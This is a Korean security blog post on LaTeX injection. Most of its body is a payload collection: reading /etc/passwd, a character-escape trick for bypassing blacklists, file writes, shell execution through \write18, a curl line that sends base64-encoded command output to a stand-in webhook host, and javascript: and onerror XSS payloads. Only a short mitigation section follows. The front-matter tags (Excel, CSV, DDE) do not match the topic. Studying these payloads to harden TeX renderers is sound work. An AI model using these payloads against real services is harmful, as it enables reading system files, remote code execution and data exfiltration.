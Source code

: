 ```yaml
---
layout: post
title: LaTeX Injection
subtitle: 2년동안 딱 한번 본 케이스....
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - Excel
  - CSV
  - DDE
  - Formula_Injection
sidebar:
---
```

## Intro
$ \LaTeX $ 란 주로 자연과학 혹은 수리 영역 논문에 사용되는 문서 작성 도구의 일종으로 $ \TeX $ 문법을 쉽게 사용하기 위해 만든 메크로 모음집이다.   

스크립트 기능이 강하기 때문에 RCE, XSS 등의 공격이 가능하여 위험도는 매우 높습니다.   
## Detect & Exploit 
### Detect
아래 사진과 같은 수식들이 보인다면 LaTeX 문법을 사용하고 있을 가능성이 큽니다.  
![](/assets/images/posts/2024-12-05-LaTeX-Injection/LaTeXInjection_Exam.png)   
### Exploit
#### Read File
```tex
\input{/etc/passwd}
\include{somefile} # load .tex file (somefile.tex)
```   

```tex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```   
```tex
\lstinputlisting{/etc/passwd}
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```   

```tex
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

#### Bypass Blacklist 

- ^^41 == A
- ^^7e == ~
```tex
\lstin^^70utlisting{/etc/passwd}
```

#### Write File

```tex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\write\outfile{Line 2}
\write\outfile{I like trains}
\closeout\outfile
```

#### Command Execution

```tex
\immediate\write18{id > output}
\input{output}
```   

```tex
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```   

```tex
\input|ls|base64
\input{|"/bin/hostname"}
```   

```tex
\immediate/write18{curl https://webhook -X POST -d a=$(id|base64)}
```

#### Cross Site Scripting

```tex
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```   

```tex
\unicode{<img src=1 onerror="<ARBITRARY_JS_CODE>">}
```   
## Security Measures
사용자 입력 값이 LaTeX에 영향이 가지 않도록 하거나, 서비스 특성상
사용자가 스스로 LaTeX 문법을 이용하여 작성해야 한다면, 공격 가능한 패키지들을 포함시키지 않거나, LaTeX 문법을 실행시키는 `\`,`$` 과 같은 특수문자를 필터링해야 합니다.   
## References
[mathjax](https://docs.mathjax.org/en/latest/input/tex/extensions/autoload.html#autoload-options)   
[LaTeX Payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)   
[hahwul](https://www.hahwul.com/cullinan/latex-injection/)   
